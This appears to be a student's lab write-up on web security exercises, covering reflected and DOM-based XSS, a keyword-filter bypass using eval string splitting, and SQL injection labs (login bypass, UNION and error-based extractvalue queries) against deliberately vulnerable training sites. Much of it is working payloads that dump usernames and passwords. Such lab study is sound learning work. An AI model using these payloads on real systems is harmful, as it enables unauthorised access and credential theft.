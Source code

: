 # XSS
## REFLECTED XSS
In this the lab contains a simple reflected xss vulnerability, where we need to use alert () function to solve it.
I called the alert function with the payload `<script>alert(0)</script>`
## DOM BASED XSS
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
I called the alert function with the payload `"><svg onload=alert()>`
## THE CLIENT SIDE
In this we need to use the alert function to pop up a dialogue box, but if we try it in the traditional way, it says sus link detected and eliminated, after digging a little bit into it I found that thescript filtered it out with the line
`if(link.includes("alert")){
                document.write("sus link detected.....and eliminated");
                document.body.innerHTML += "<br><a href='javascript:location.reload()'>Reload</a>";
            }`
which filters the link if it contains the word alert in it. And neither aLeRt, or changing any letters to capital would work since all letters are converted into lowercase and this turn the aLeRt into alert which gets filtered by the system.
So I used eval function and broke the function into two strings "aler" + "t()" which looks like eval("aler"+"t()"). Now this can bypass the filter since it is intercepted as aler + t() which is not alert() directly.
Here we are using eval() because with the <script> tag it cant understand or merge the two sperate strings.
# SQL Injection
## LAB LOGIN BYPASS
This is a simple login webpage. I tried to enter the username as `administrator'--+` because generally the usernames are sent to the backend by enclosing them in a string and the password is also in the same line so we can comment it out by passing `--+`. And henceforth the system only checks for the usernae and gives us the acess to the account.
## UNION ATTACK
In this we try to breach the usernames and passwords from the backend database. first we check the number of columns containg strings by the payload `' union select 'username','password'--+`. This should print the texts username and password indicating there are 2 columns which columns contain text data. So we make our final payload as `' union select username,password from users --+` which selects both the columns.
## SQLI LABS

### GENERAL APPROACH
1)	First we can check for possible sql injections using `‘`and `‘’`
2)	Then we fuzz around trying to get the syntax of the code
3)	Then we try to make the first statement false by providing something like id=-1. Since we know id is not generally negative. 
4)	We have done this to use the UNION SELECT statement. So if the first one is false so will be the 
5)	`localhost/sqli-labs/Less-1/?id=-1' UNION SELECT ‘a’,'b',database()--+` doing this will get us the name of the database
6)	Then we can type `localhost/sqli-labs/Less-1/?id=' union select NULL,NULL,column_name from information_schema.columns where  table_schema=database() and table_name='users' limit 0,1--+`
7)	To domp all the data from those sql databases.

### LAB 1
`?id=-1’ union select 1,group_concat(username),group_concat(password) from users --+` to break the code
### LAB 2
This accept only integers so it cannot take strings as input

`?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+` 
### LAB 3
Same as the first one with the addition of a bracket 

`?id=-1%27)union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+`
### LAB 4
This is a double quote query

`?id=-1") union select 1,group_concat(username),group_concat(password) from users--+` breaks the code
### LAB 5
In this even if we change the id the webpage does not change in any manner. 
So here we use extractvalue()
1) We get the name of the database by 
   `?id=1' and extractvalue(0x0a,concat(0x0a,(select database())))--+`
2) We then get the table names by
    `?id=1' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 3,1)))--+`
3) Then we can view columns in users table by
   `?id=1'  and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1)))--+`
   `?id=1'  and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 2,1)))--+`
5)  Then we can dump the data by iterating over the values by
   `?id=1' and extractvalue(0x0a,concat(0x0a,(select concat(username,':',password) from users limit 0,1)))--+`

 
